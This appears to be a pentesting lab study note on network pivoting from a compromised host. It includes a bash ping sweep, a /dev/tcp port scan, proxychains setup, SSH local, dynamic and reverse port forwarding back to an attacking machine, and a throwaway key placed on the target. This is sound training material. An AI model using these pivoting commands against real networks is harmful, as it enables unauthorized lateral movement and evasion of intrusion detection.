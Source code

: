 There are two main methods encompassed in this area of pentesting:

-   **Tunnelling/Proxying:** Creating a proxy type connection through a compromised machine in order to route all desired traffic into the targeted network. This could potentially also be _tunnelled_ inside another protocol (e.g. SSH tunnelling), which can be useful for evading a basic **I**ntrusion **D**etection **S**ystem (IDS) or firewall  
    
-   **Port Forwarding:** Creating a connection between a local port and a single port on a target, via a compromised host


#### Enumeration
Command:

`arp -a`

` cat /etc/hosts`


`cat /etc/resolv.conf`

---

Before putting this all into practice let's talk about living off the land shell techniques. Ideally a **tool like Nmap** will already be installed on the target; however, this is **not always** the case (indeed, you'll find that Nmap is **not** installed on the currently compromised server of the Wreath network). I


```
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done

```

If you suspect that a host is active **but is blocking ICMP**ping requests, you could also check some common ports using a tool like `netcat`.

Port scanning in bash can be done (ideally) entirely natively:

```
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```



#### Proxychains & Foxyproxy



`proxychains nc 172.16.0.10 23`

`cp /etc/proxychains.conf .`

`.proxychains`

`/etc/proxychains.conf`

ProxyList
socks4 127.0.0.1 9050

set burpsuit

#### SSH Tunnelling / Port Forwarding


There are two ways to create a forward SSH tunnel using the SSH client -- port forwarding, and creating a proxy.

-   Port forwarding is accomplished with the `-L` switch, which creates a link to a **L**ocal port. For example, if we had SSH access to 172.16.0.5 and there's a webserver running on 172.16.0.10, we could use this command to create a link to the server on 172.16.0.10:  
    `ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN`  
    We could then access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 _on our own_ _attacking machine._ For example, by entering `localhost:8000` into a web browser. Using this technique we have effectively created a tunnel between port 80 on the target server, and port 8000 on our own box. Note that it's good practice to use a high port, out of the way, for the local connection. This means that the low ports are still open for their correct use (e.g. if we wanted to start our own webserver to serve an exploit to a target), and also means that we do not need to use `sudo` to create the connection. The `-fN` combined switch does two things: `-f` backgrounds the shell immediately so that we have our own terminal back. `-N` tells SSH that it doesn't need to execute any commands -- only set up the connection.


-   Proxies are made using the `-D` switch, for example: `-D 1337`. This will open up port 1337 on your attacking box as a proxy to send data through into the protected network. This is useful when combined with a tool such as proxychains. An example of this command would be:  
    `ssh -D 1337 user@172.16.0.5 -fN`  
    This again uses the `-fN` switches to background the shell. The choice of port 1337 is completely arbitrary -- all that matters is that the port is available and correctly set up in your proxychains (or equivalent) configuration file. Having this proxy set up would allow us to route all of our traffic through into the target network.


**Reverse Connections**

1- First, generate a new set of SSH keys and store them somewhere safe (`ssh-keygen`):
```
ssh-keygen

ls -l reverse*
```

2- Copy the contents of the public key (the file ending with `.pub`), then edit the `~/.ssh/authorized_keys` file on your own attacking machine. You may need to create the `~/.ssh` directory and `authorized_keys` file firs

3- On a new line, type the following line, then paste in the public key:
`command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty`

4 -Next. check if the SSH server on your attacking machine is running:  
`sudo systemctl status ssh`

5- If the status command indicates that the server is not running then you can start the ssh service with:  
`sudo systemctl start ssh`

The only thing left is to do the unthinkable: transfer the private key to the target box. This is usually an absolute no-no, which is why we generated a throwaway set of SSH keys to be discarded as soon as the engagement is over.

6- With the key transferred, we can then connect back with a reverse port forward using the following command:  
`ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN   `

7- To put that into the context of our fictitious IPs: 172.16.0.10 and 172.16.0.5, if we have a shell on 172.16.0.5 and want to give our attacking box (172.16.0.20) access to the webserver on 172.16.0.10, we could use this command on the 172.16.0.5 machine:  
`ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN   `

KeyFile = id_rsa

This would open up a port forward to our Kali box, allowing us to access the 172.16.0.10 webserver, in exactly the same way as with the forward connection we made before!

8- In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it:  
`ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`  

This, again, will open up a proxy allowing us to redirect all of our traffic through localhost port 1337, into the target network.